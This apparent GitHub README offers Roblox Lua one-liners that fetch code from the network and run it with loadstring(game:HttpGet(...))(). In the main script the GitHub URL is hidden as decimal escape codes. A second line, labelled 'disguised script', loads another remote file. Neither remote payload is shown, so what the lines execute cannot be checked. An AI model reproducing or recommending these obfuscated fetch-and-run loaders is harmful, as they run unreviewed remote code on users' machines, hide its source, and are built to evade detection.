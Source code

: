 ## TO DO:
- [x] nothing

## Change logs:
- removed settings

## script:
```lua
loadstring(game:HttpGet("\104\116\116\112\115\58\47\47\103\105\116\104\117\98\46\99\111\109\47\70\117\114\114\121\66\111\121\89\84\47\115\99\114\105\112\116\105\110\103\47\114\97\119\47\109\97\105\110\47\115\99\114\105\112\116\46\108\117\97"))()
```

## disguised script:
```lua
-- OUTDATED
loadstring(game:HttpGet("https://github.com/juhoa-fr/universal/raw/main/sc"))()
```